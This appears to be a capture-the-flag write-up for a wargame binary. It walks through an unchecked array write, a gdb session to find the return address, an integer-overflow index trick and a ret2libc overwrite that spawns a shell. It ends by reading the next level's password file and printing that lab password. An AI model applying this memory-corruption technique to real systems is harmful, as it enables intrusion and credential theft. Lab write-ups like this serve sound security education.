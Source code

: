 This level has an interactive program that creates an int array[100] with 3 options: read, store, quit.
Read = read_number(array) will simply get an index unsigned int from input using scanf and then prints array[index] or (array + index * 4 {since int has a size of 4 bytes})
Store = store_number(array) will get an index and value from input using scanf and will set array[index] = value or (array + index * 4 = value)
quit = will exit the loop and return

the trick in this level is in the store function, it is not secure because it has no limits and can let us print any value on memory we only have to get the correct index for this memory.

let's try overwriting the return address of main with ret2libc system("bin/sh"), but first let's get the return address first we can get it using:

info frame
Stack level 0, frame at 0xffffd6f0:
 eip = 0x80488ea in main; saved eip 0xf7e45513
 Arglist at 0xffffd6e8, args:
 Locals at 0xffffd6e8, Previous frame's sp is 0xffffd6f0
 Saved registers:
  ebx at 0xffffd6dc, ebp at 0xffffd6e8, esi at 0xffffd6e0, edi at 0xffffd6e4, **eip at 0xffffd6ec**

0xffffd6ec is the return address we're looking for to overwrite.

now if we want to write anything on this address we'll have to guess its index, we can do that by substracting it from the array address, we can get the array address by breaking before read_number() or store_number()
and checking the $esp since it's passed as an argument.

b *0x080488ea // (0x080488ea <+455>:	call   0x8048630 <store_number>)
x/wx $esp
0xffffd500:	**0xffffd524**

now we can substract it from the return address then divide it by 4 to get the index :

(0xffffd6ec - 0xffffd524) =  456 (This is the distance between the array and the return address)
if we divide it by 4 we will get the index 114.

now that we have the index, we can write the system address on that index (114), the next 4 bytes are insignificant (115), and the next 4 bytes should contain the "/bin/sh" (116), address we can get that as usual

(gdb) p system
$1 = {<text variable, no debug info>} **0xf7e6aed0** <system>

(gdb) find 0xf7e2c000,0xf7fcc000, "/bin/sh"
**0xf7f897ec**

There's still a twist in store_number(), the function checks if the index % 3 != 0 before writing, if not it will say that the index is reserved for wil and since 114 % 3 == 0 it isn't possible to store a value in that index. Luckily we can get around this limitation using integer overflow, since memory is circular we can get another number that stores in the same index by doing a lap :
(0x100000000 + 0x1c8) / 4 = 1073741938 // 456 = 0x1c8

now we will store:

1073741938 (114) = 4159090384 // 0xf7e6aed0 (system)
116 = 4160264172 // 0xf7f897ec ("/bin/sh")

now we when quitting, main() will reach its return then our system("/bin/sh") will get called instead.

$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC